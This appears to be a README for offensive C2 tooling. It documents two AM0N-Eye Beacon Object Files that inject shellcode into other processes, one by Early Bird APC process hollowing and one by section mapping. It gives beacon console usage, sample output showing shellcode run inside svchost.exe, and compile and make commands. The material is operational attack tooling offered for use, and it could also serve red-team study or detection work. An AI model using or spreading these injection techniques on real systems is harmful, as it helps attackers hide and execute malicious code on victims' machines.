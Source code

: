 ## process-hollowing - AM0N-Eye BOF

Beacon Object File (BOF) that spawns an arbitrary process from beacons memory in a suspended state, inject shellcode, hijack main thread with APC, and execute shellcode; using the Early Bird injection method taught 

### Run from AM0N-Eye Beacon Console

```bash
beacon> help process-hollowing
Synopsis: process-hollowing /path/to/process-hollowing/pe /local/path/to/shellcode.bin
beacon> process-hollowing svchost.exe /Users/bobby.cooke/popCalc.bin
[*] process-hollowing - EarlyBird Remote Process Shellcode Injector
[*] Reading shellcode from: /Users/bobby.cooke/popCalc.bin
[+] Success - Spawned process for svchost.exe at 5464 (PID)
[+] Success - Allocated RE memory in remote process 5464 (PID) at: 0x000001A83BEC0000
[+] Success - Wrote 280 bytes to memory in remote process 5464 (PID) at 0x000001A83BEC0000
[+] Success - APC queued for main thread of 5464 (PID) to shellcode address 0x000001A83BEC0000
[+] Success - Your thread was resumed and your shellcode is being executed within the remote process!
```

### Compile with x64 MinGW (only tested from macOS):
```bash
x86_64-w64-mingw32-gcc -c process-hollowing.x64.c -o process-hollowing.x64.o
```

### To Do List
+ Refactor code to make it more modular/clean
- Combine this with the PPID spoofing and blockdll features of SPAWN


## Section Mapping Process Injection (secinject): AM0N-Eye BOF

Beacon Object File (BOF) that leverages Native APIs to achieve process injection through memory section mapping. 
one to inject beacon shellcode for a selected listener into the desired process, and one to inject the user's desired shellcode - loaded from a bin file - into the desired process.  These are *sec-inject* and *sec-shinject* respectively.

- Currently, this is only implemented for x64 processes.

### How to Make
```
cd secinject/src
make
```

### How to Use
#### Injecting Beacon
```
sec-inject PID LISTENER-NAME
```
